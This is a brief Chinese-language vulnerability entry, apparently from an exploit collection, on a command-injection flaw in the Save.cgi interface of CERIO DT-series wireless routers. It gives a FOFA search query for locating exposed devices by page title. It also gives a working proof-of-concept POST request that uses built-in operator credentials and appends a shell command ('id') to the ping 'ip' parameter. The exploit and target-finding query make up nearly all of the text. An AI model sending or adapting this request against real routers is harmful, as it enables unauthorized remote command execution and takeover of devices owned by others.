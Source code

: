 ## CERIO-DT系列路由器Save.cgi接口存在命令执行漏洞

CERIO DT系列路由器是中国台湾智鼎资讯（CERIO）公司的一款无线路由器。CERIO DT系列路由器在特定版本中存在操作命令注入漏洞。攻击者可利用该漏洞执行命令。

## fofa
```
title="DT-100G-N" || title="DT-300N" || title="DT-100G" || title="AMR-3204G" || title="WMR-200N"
```

## poc
```
POST /cgi-bin/Save.cgi?cgi=PING HTTP/1.1
Host: 
Authorization: Basic b3BlcmF0b3I6MTIzNA==
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 33

pid=2061&ip=127.0.0.1;id&times=1
```

